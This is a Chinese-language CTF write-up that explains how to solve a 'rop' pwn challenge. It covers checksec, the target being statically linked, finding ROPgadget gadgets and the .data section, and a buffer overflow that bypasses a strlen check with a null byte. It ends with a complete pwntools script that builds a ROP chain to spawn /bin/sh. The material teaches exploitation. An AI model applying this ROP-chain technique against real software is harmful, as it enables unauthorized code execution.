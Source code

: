 ```yaml
---
title: "解 ROP 之工具與詳細流程"
date: 2020-02-17T13:37:01+08:00
draft: false
tags: ["CTF", "pwn"]
categories: ["CTF pwn"]
---
```


# ROP writeup

## checksec rop

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## file rop

```
rop: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=6608f6b8f49633b8d8248f7665b6ba35659a595a, not stripped
```

## 線索1：statically linked

**動態連結**是當程式執行時，才會去 library binding (.so 或 .dll)
**靜態連結**是指程式在連結階段時，就會將使用到的函式一併放入執行檔

| 比較         | 動態連結     | 靜態連結     |
| ------------ | ------------ | ------------ |
| 連結 library | runtime 階段 | linking 階段 |
| 連結方式     | 建立 GOT 表    | 與執行檔合併 |
| 檔案大小     | 較小         | 較大         |
| libray 檔案類型    |  .so 或 .dll | .a 或 .lib  |

因此我們可使用 **ROPgadget** 在此ELF找出 ROP gadget，來取得 執行權限
```
ROPgadget --binary rop | grep "正規表達式"
```
補充： `grep` 是屬於 BRE 派系，使用正規表達式時，須跳脫字元。


## 線索2：NX is enabled
```
* NX 若關閉，則可寫入 shellcode
* NX 若開啟，則可透過 ROP chain 技巧執行 shell
```

因為 NX 是開啟的，也就是說 data 段是沒有執行能力的。 
因此我們無法使用 shellcode 寫入 data 段，直接執行 shell

然而，我們可以使用 ROP 技巧來執行 shell
我們可透過 `readelf -S 檔案` 指令得知 data段 是可寫入資料的。


### 如何找 data section 位址？
使用 `readelf -S filename` 指令可查看所有 section 的位址
我們只需看 data section的部份即可
data區段雖然在此程式無法執行，但可寫入 `"/bin/sh"`字串作為納入 shell 參數的暫存區塊
```
readelf -S rop
```
或是
```
readelf -S rop | grep ".data"
```
即可知道 `0x6ca080` 是 data section 位址

![](https://i.imgur.com/b4Z45tn.png)

## 線索3： No canary

使用 r2 反組譯後由於 read 最多可以讀取 0xc8 (200) 個字元，
且輸入到的 local buffer 大小只有 32 bytes，
因此可使用 bof (buffer overflow) 技巧來建立 ROP chain。

![](https://i.imgur.com/Njh4RK9.png)


另外必須要注意，輸入字串後仍會檢查字串長度是否小於等於 32 個，
必須在輸入30個bytes大小的字串後，額外加入 空字元，繞過strlen的超過長度的判斷，才繼續接 ROP chain

![](https://i.imgur.com/mOn49l6.png)


## ROP chain
ROP = Return Oriented Programming

顧名思義，就是利用 結尾有 ret 的 gadgets (一小段 x86 組語)來湊成我們想要做的事情。

對於 pwn ，我們就是希望可以透過 ROP chain 湊成 `execve("/bin/sh", 0, 0)`，來取得執行 shell 的系統權限。

另外，在撰寫 ROP 時，必須確認該 ELF 是 x86 還是 x64，因為 兩者的 system call 的呼叫（傳參）方式不同

* [參考x64 system call](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

### x64呼叫慣例

:::info
rdi: 第一個參數存放的暫存器
rsi: 第二個參數存放的暫存器
rdx: 第三個參數存放的暫存器
:::

舉例來說，呼叫 execve("/bin/sh", 0, 0) <br>
暫存器會呈現
```
rax = 0x3b (system call 的編號)
rdi = address of "/bin/sh"
rsi = 0x0
rdx = 0x0
```
只要透過 ROP 將這些暫存器改成上述的值，chain結尾再呼叫 syscall，此程式在overflow之後就會執行 shell 了。

## 解法
```python=
from pwn import *

r = process("./rop")
data_sec = 0x06ca080
gadget1 = 0x04014f6 # pop rdi ; ret
gadget2 = 0x0401617 # pop rsi ; ret
gadget3 = 0x047a712 # mov qword ptr [rdi], rsi ; ret
gadget4 = 0x0442a19 # pop rdx ; pop rsi ; ret
gadget5 = 0x044f6cc # pop rax ; ret
syscall = 0x04003da

rop =  p64(gadget1) + p64(0x06ca080)
rop += p64(gadget2) + "/bin/sh\x00"
rop += p64(gadget3)
rop += p64(gadget4) + p64(0x0)*2
rop += p64(gadget5) + p64(0x3b) 
rop += p64(syscall)

r.recvuntil("\n")
r.send('a'*30+'\x00'+'a'*9 + rop)

r.interactive()
```